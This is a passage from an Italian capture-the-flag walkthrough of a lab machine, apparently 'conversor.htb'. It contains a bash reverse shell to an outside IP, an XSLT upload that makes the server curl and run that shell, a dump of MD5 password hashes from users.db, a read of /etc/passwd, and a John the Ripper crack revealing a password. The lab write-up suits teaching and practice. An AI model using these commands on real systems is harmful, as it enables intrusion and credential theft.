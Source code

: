 ```
#!/bin/bash 
bash -i >& /dev/tcp/10.10.14.27/9001 0>&1
```

Questa non è altro che una semplice reverse shell.
 Creiamo un file xml con uno scan nmap ( `sudo nmap -sC -sV 10.10.11.92 -oX nmap.xml` )
 Avviamo un server python nella cartella che contiene il file appena `shell.sh`
 `python3 -m http.server 8000`
 In un'altra finestra mettiamoci in ascolto con `nc -lvnp 9001`
Sul sito carichiamo il file xml con lo scan nmap (nmap.xml) e il file shell.xslt e clicchiamo su "Convert". Il sito crea un file nella sezione "Your Uploaded Files". Clicchiamo sul file creato.
Lo script `shell.xslt` crea lo script python che viene eseguito lanciando il comando curl che fa l'upload della nostra macchina della reverse shell (sheel.sh) e la lancia con bash, inviando la shell sulla nostra porta 9001 in ascolto. Siamo dentro la macchina.

### Shell utente

Una volta entrati siamo nella cartella `/var/www` che contiene la cartella `conversor.htb`. Entriamo in questa cartella. Qui troviamo la stessa struttura contenuta nel file zippato quindi nella cartella `instance` è presente il file `users.db`, esaminiamolo:

```
www-data@conversor:~/conversor.htb/instance$ sqlite3 users.db
sqlite3 users.db
.tables
files  users
SELECT * FROM users;
1|fismathack|5b5c3ac3a1c897c94caad48e6c71fdec
5|admin|bb14a216bb6ff6410151e139d5470271
6|123|202cb962ac59075b964b07152d234b70
7|xerand|af643215fb40317aa23d66c3dd4bfaeb
```

Poi esaminiamo il file `/etc/passwd` (cat /etc/passwd)
Troviamo l'utente `fismathack`:
`fismathack:x:1000:1000:fismathack:/home/fismathack:/bin/bash`
Quindi `5b5c3ac3a1c897c94caad48e6c71fdec` potrebbe essere la password in MD5 dell'utente ``fismathack`

Possiamo provare a craccarla con [[johntheripper]]
salviamo `5b5c3ac3a1c897c94caad48e6c71fdec` nel file hash.txt e lanciamo il comando
`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-md5`
Troviamo la password `Keepmesafeandwarm`:

```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
Keepmesafeandwarm (?)     
1g 0:00:00:00 DONE (2025-10-31 20:27) 2.000g/s 21945Kp/s 21945Kc/s 21945KC/s Keiser01..Keepers137
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

